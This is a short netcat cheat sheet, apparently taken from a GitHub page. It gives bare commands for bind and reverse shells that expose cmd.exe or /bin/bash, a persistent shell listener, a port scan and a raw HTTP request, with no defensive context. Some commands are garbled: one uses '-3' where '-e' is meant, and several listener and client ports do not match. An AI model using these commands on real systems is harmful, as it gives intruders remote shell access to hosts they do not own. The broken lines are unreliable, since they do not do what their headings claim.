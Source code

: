 # Netcat Usage

#### Bind Shell w/ cmd shell

```bash
nc -nlvp 444 -e cmd.exe
nc -nv <target w/ listener> 4444 
```

#### Reverse Shell w/ cmd shell to listening host

```bash
nc -nlvp 4444
nc -nv <target w/ listener> 4444 -3 /bin/bash
```

#### Reverse shell w/ persistance

```bash
nc -nLvp 44445 -e cmd.exe
nc -nv <target w/ listener> 4445
```

#### Receive return packages on a different port

```bash
nc -nLvp 44445 -e cmd.exe
nc -nv -p 4849 <target w/ listener> 4445
```

#### Netcat portscan
```bash
nc -n -v -z -w1 <target_ip> 100-250
```

#### Netcat connecting to HTTP service
```bash
nc <target> 80
GET / HTTP/1.0
HOST: <IP>
```
